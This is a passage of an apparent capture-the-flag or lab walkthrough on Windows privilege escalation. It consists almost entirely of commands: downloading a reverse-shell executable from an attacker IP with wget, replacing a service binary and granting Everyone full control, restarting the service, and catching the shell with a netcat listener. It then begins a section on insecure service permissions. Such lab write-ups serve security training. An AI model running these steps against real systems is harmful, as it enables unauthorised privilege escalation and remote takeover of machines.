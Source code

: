 ```
wget http://10.10.15.215:81/rev-svc2.exe -O rev-svc2.exe
move C:\Users\thm-unpriv\rev-svc2.exe C:\MyPrograms\Disk.exe
icacls C:\MyPrograms\Disk.exe /grant Everyone:F
```

**Kali**

```
nc -lvp 4446
```

**Victim(cmd)**

```
sc.exe stop "disk sorter enterprise"
sc.exe start "disk sorter enterprise"
```

<figure><img src="../../.gitbook/assets/image (3) (1) (4).png" alt=""><figcaption></figcaption></figure>

### Insecure Service Permissions

**Victim(cmd)**

```
cd C:\tools\AccessChk
accesschk64.exe -qlc thmservice
```

<figure><img src="../../.gitbook/assets/image (7) (8) (1).png" alt=""><figcaption></figcaption></figure>
